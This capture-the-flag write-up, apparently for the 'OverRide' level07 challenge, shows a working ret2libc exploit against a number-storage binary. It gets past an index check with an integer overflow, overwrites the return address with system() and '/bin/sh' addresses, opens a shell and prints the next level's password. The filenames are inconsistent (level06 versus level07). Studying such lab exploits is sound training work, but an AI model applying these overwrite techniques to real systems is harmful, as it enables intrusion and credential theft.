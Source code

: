### Download binary
``scp -P4242 level06@192.168.31.33:/home/users/level06/level06 ~/Bureau/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (refer to source code)

We notice that we can write to an array of 100 slots, and we can read from this same array.
We realize that we're prohibited from writing to indices that are multiples of 3 (0, 3, 6, 9, etc.) and 183 as number (?).
Furthermore, we discern that we can read values outside of the array's boundaries, and we can even write to these out-of-bounds slots.
We decide to perform a RET2LIBC to gain shell execution.

----

### Gathering infos to build the payload

**How to Write on index that are Multiples of 3**
To write to an index which are multiples of 3, we'll exploit integer overflow, using a number that isn't itself a multiple of 3.

**Finding EIP**
Through experimentation, at index 114, we discover the number 4158936339, which translates to F7E45513 in hexadecimal. This looks like an address, likely the EIP.
````
Input command: read
 Index: 114
 Number at data[114] is 4158936339
 Completed read command successfully
````

The 114th index is the 115th position in the array (starting from 0).
Thus, max_int 2147483647 + 115 = **2147483762**.
This isn't a multiple of 3, perfect!


**Testing our EIP Overwrite Theory**
Input command: **store**
 Number: **666**
 Index: **2147483762**
 Completed store command successfully
Input command: read
 Index: **114**
 Number at data[**114**] is **666**
 Completed read command successfully
Input command: quit
**Segmentation fault (core dumped)**
--> Great! We have a segmentation fault, which means we successfully overwrote the EIP.

**Locating the 'system' Address**
``gdb ./level07``
``(gdb) b main``
[...]
``(gdb) r``
[...]
``(gdb) info function system``
[...]
>0xf7e6aed0  system

**Finding "/bin/sh" in Memory**
``(gdb) info proc map''
[...]
>0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
``(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"''
>0xf7f897ec

----

### Building of payload

Store at index 114: system.
114 is a multiple of 3, so we find the nearest int overflow: **2147483762** (2147483647 + 115).
System's address: f7e6aed0 -> **4159090384**.

Store at index 115: exit (optional).
We won't overcomplicate things since it's optional.

Store at index 116: /bin/sh.
116 isn't a multiple of 3, so we can use it directly.
Address of "/bin/sh": f7f897ec -> **4160264172**.

----

### Bypassing security


``level07@OverRide:~$ ./level07``
````
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 2147483762
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$
````

``$ cat /home/users/level08/.pass``
>7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC






